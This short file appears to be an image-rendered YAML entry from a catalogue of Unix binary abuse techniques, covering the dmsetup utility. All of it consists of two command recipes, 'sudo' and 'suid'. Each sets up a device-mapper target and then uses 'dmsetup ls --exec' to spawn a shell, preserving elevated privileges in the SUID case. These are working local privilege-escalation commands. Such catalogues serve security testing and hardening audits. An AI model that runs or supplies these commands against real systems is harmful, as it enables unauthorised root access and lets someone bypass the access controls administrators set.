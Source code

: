 ```yaml
---
functions:
  sudo:
    - code: |
        sudo dmsetup create base <<EOF
        0 3534848 linear /dev/loop0 94208
        EOF
        sudo dmsetup ls --exec '/bin/sh -s'
  suid:
    - code: |
        ./dmsetup create base <<EOF
        0 3534848 linear /dev/loop0 94208
        EOF
        ./dmsetup ls --exec '/bin/sh -p -s'
---
```

